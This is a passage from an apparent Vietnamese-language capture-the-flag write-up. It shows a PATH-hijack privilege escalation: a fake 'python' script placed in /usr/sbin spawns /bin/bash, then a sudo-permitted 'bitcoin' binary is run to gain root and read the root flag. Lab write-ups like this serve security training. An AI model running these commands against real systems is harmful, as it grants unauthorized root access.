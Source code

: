 print "Saving " + result + " BitCoin(s) For Later Use "

test = raw_input("Do you want to make a transfer? Y/N : ")

if test == "Y":

Điều này gợi ý bitcoin gọi Python để chạy transfer.py.

Kiểm tra PATH:

echo $PATH
ls -la /usr/sbin   # kiểm tra xem bạn có quyền ghi ở đây không

Tạo một file python giả (trong ví dụ ta đặt ở /usr/sbin) để khi được chạy sẽ mở shell:

cd /usr/sbin

echo -e '#!/bin/bash\n/bin/bash' > python

chmod +x python

ls -l /usr/sbin/python

hạy binary được phép bởi sudo:

sudo /home/Orka/Desktop/bitcoin

Xác minh đã lên root:

whoami    # output: root

id

ls /root

cat /root/root.txt

<img width="712" height="540" alt="image" src="https://github.com/user-attachments/assets/f28b23d4-cf3e-4dda-8ad4-90643cde8071" />
